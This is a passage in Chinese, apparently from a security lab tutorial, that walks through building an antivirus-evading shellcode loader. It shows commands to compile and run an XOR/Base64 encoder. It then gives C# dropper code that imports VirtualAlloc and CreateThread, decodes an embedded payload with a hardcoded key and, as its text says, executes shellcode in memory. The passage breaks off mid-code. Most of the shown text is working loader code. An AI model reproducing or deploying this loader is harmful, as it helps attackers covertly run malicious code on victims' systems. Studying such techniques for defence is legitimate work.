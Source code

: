     编译并运行编码器：
    
    PowerShell
    
    ```
    C:\> csc.exe Encrypter.cs
    C:\> .\Encrypter.exe
    # 输出 Base64 编码后的字符串，例如: qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
    ```
    
- 步骤 B: 自解码有效载荷 (C# - Dropper)
    
    此程序嵌入了编码后的载荷，在运行时首先进行 Base64 解码，然后使用相同的密钥进行 XOR 解密，最后在内存中执行 Shellcode。
    
    C#
    
    ```
    using System;
    using System.Text;
    using System.Runtime.InteropServices;
    
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    
        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
    
        private static byte[] XorEncryptDecrypt(byte[] data, byte[] keyBytes)
        {
            byte[] result = new byte[data.Length];
            for (int i = 0; i < data.Length; i++)
            {
                result[i] = (byte)(data[i] ^ keyBytes[i % keyBytes.Length]);
            }
            return result;
        }
    
        public static void Main()
        {
            // 将编码器输出的 Base64 字符串粘贴到此处
            string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
            byte[] data = Convert.FromBase64String(dataBS64); // Base64 解码
    
            string key = "THMK3y123!"; // 必须与编码器中使用的密钥相同
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);
    